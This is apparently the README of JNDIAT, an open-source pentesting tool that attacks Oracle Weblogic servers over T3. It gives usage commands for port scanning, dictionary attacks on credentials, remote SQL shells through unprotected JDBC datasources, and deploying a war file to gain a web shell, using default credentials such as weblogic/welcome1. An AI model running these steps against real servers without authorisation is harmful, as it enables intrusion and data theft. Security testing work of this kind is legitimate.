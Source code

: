 | __Quentin HARDY__    |
| ------------- |
| __quentin.hardy@protonmail.com__  |
| __quentin.hardy@bt.com__    |

# JNDIAT - JNDI Attacking Tool

**JNDIAT** (**JNDI** **A**ttacking **T**ool) is an open source penetration testing tool that tests the security of **Weblogic** servers **through T3 protocol**.

Usage examples of JNDIAT:
* You want to search if there are Weblogic **ports which are accessible through T3 protocol**;
* You want to **search valid accounts** remotely in order to have a privileged connection;
* You want to list **JNDIs (Java Naming and Directory Interface) which are accessible** to know what you can do on the remote Weblogic server (without or with a Weblogic account);
* You want to **use a unprotected (i.e. 'public') JDBC datasource** in order to get a remote interactive SQL shell;
* You want to **deploy an application** (e.g. War) on the Weblogic server in order to have a Web shell (account required).

Tested on Oracle Weblogic 11.

# Changelog

+ Version **0.01 (2018/11/31)** :
  + first version.
 
# Features

+ Supports **T3** and **T3s** (**T3 over SSL**) connections. JNDIAT creates a local temporary Java KeyStore to validate the Weblogic server's certificate;
+ Supports authentication with **empty credentials** ie login='' and password=''. Public JDBC datasources can be used with an empty account by default in Weblogic (tested on version11);
+ Supports targets if the weblogic is in a domain;
+ **Detects ports** accessible through T3 protocol;
+ **Finds valid credentials** through dictionary attacks;
+ Gets **JNDIs list accessible** with a specific account (or without account);
+ Gets a **remote sql shell** via a JDBC datasource;
+ With a privileged account, you can **deploy an application** on the weblogic server in order to have a Web shell for example.


# Usage examples

## Main help

```bash
java -jar Jndiat.jar -h
```

## JNDIAT version

```bash
java -jar Jndiat.jar --version
```

## Scan ports
This module should be used for scanning ports accessible through T3 (or T3s) protocol in order to get JNDIs.

To know if you can use the port 7001 to establish a T3 connection:
```bash
java -jar Jndiat.jar scan -s 192.168.56.101 --ports 7001
```

To scan ports 7001 and 7002:
```bash
java -jar Jndiat.jar scan -s 192.168.56.101 --ports '7001,7002'
```

To scan ports from 7001 to 7010:
```bash
java -jar Jndiat.jar scan -s 192.168.56.101 --ports '7001-7010'
```

## List of JNDIs
This module should be used to get the list of JNDIs accessible trough the T3 protocol.
This module is useful in order to know if some JNDI are accessible without authentication (ex: a 'public' JDBC datasource).

To get JNDIs accessible on port 7001 of the server 192.168.56.101:

```bash
java -jar Jndiat.jar list -s 192.168.56.101 -p 7001
```

If you not specify credentials in the command line, the tool will returns JNDIs accessible without authentication.
If you know valid credentials, you can use it to get more JNDIs:

```bash
java -jar Jndiat.jar list -s 192.168.56.101 -p 7001 -U username -P password
```

## JDBC DataSource
This module allows you to get a remote SQL shell via a JDBC datasource.

To get an interactive SQL shell from a JNDI datasource:

```bash
java -jar Jndiat.jar datasource -s 192.168.56.101 -p 7001 --sql-shell
```

The tool will ask you the JDBC datasource to use. 
If you know the datasource name, you can specify it:
```bash
java -jar Jndiat.jar datasource -s 192.168.56.101 -p 7001 --sql-shell --datasource='jdbc/myDataSource'
```

## Deploy an application

Thanks to this module, you can deploy an application (e.g. .war, .ear) in the remote Weblogic server through the T3 protocol.
To use this module, you may have high privileges (and an account of course).

The following command deploys the application 'cmd.war' on the remote weblogic server.

```bash
java -jar Jndiat.jar deployer -s 192.168.56.101 -p 7002 -U weblogic -P welcome1 --deploy --appl-file cmd.war
```

To undeploy the previous war ('cmd.war') from the remote weblogic server:

```bash
java -jar Jndiat.jar deployer -s 192.168.56.101 -p 7002 -U weblogic -P welcome1 --undeploy
```

To change the application name deployed on the weblogic server, the *--display-name* option must be used:

```bash
java -jar Jndiat.jar deployer -s 192.168.56.101 -p 7002 -U weblogic -P welcome1 --deploy --appl-file 'cmd.war' --display-name 'appli-name-displayed'
```

To undeploy a specific application named *appli-name-displayed*:

```bash
java -jar Jndiat.jar deployer -s 192.168.56.101 -p 7002 -U weblogic -P welcome1 --undeploy --display-name 'appli-name-displayed'
```

Special thanks
====
Special thanks to some previous BT pentesters (e.g. @gno) for the initial work.

Donation
====
If you want to support my work doing a donation, I will appreciate a lot:

* Via BTC: 36FugL6SnFrFfbVXRPcJATK9GsXEY6mJbf
